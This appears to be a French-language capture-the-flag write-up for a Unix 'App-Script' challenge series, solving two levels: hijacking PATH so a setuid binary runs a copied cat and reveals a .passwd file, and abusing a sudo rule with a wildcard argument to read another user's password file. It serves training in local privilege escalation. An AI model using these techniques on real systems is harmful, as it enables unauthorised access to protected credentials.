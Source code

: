 
# APP-SCRIPT

Cette série d’épreuves est conçue pour exposer les vulnérabilités associées à des faiblesses de l'environnement, des erreurs de configuration ou des défauts dans des scripts ou langages de programmation. L'objectif principal est d’obtenir des droits supplémentaires en exploitant diverses failles, telles que des permissions incorrectes sur des fichiers, des protections par chiffrement faibles, ou des erreurs de développement. Chaque défi nécessite l’obtention d’un mot de passe spécifique pour valider l'épreuve sur le portail.

## Prérequis
Pour réussir cette série de challenges, il est important de maîtriser les éléments suivants :
- L’environnement shell UNIX.
- Les langages de programmation Python et Perl.
- Les outils de manipulation de fichiers binaires.
- Une bonne connaissance du langage C.

## 33 Challenges

### 1. Bash - System 1
Lors de l’examen du répertoire, on remarque un attribut particulier `s` sur l’exécutable `ch11`, indiquant qu’il est exécuté avec les privilèges de l'owner, ici `app-script-ch11-cracked`. Ce dernier est également le propriétaire du fichier `.passwd`.

```bash
app-script-ch11@challenge02:~$ ls -la
total 24
dr-xr-x---  2 app-script-ch11-cracked app-script-ch11         4096 Aug 11  2015 .
drwxr-xr-x 14 root                    root                    4096 Nov 17 21:47 ..
-r--r-----  1 app-script-ch11-cracked app-script-ch11-cracked   14 Feb  8  2012 .passwd
-r-sr-x---  1 app-script-ch11-cracked app-script-ch11         7160 Aug 11  2015 ch11
-r--r-----  1 app-script-ch11         app-script-ch11          153 Aug 11  2015 ch11.c
```

L’attribut `s` sur `ch11` signifie que cet exécutable sera lancé avec les droits du propriétaire, `app-script-ch11-cracked`. Cette configuration permet d'exécuter des actions avec des privilèges élevés si un attaquant parvient à manipuler l'exécution du fichier.

Une solution consiste à copier l'exécutable `cat` dans le répertoire `/tmp`, puis à modifier la variable d’environnement `PATH` pour que le système privilégie cette version modifiée de `cat` lors de l'exécution du fichier `ch11`.

```bash
app-script-ch11@challenge02:~$ cp /bin/cat /tmp/ls
app-script-ch11@challenge02:~$ PATH=/tmp
app-script-ch11@challenge02:~$ echo $PATH
/tmp
```

Maintenant, lorsque l’on exécute `ch11`, c’est la copie de `cat` dans `/tmp` qui sera lancée, permettant ainsi d’afficher le mot de passe contenu dans le fichier `.passwd`.

```bash
app-script-ch11@challenge02:~$ ./ch11
!oPe[... flag snipped ...]5
```

### 2. sudo - Faiblesse de Configuration

Dans un autre challenge, la faiblesse de configuration du fichier sudo est exploitée. En utilisant les privilèges `sudo`, on peut exécuter des commandes avec les droits de l’utilisateur `app-script-ch1-cracked`. Voici une commande qui permet de lire le fichier `.passwd` du challenge :

```bash
app-script-ch1@challenge02:~/ch1cracked$ sudo -u app-script-ch1-cracked cat /challenge/app-script/ch1/notes/* .passwd
```

Cette exploitation permet d’accéder au mot de passe en utilisant des configurations incorrectes du système.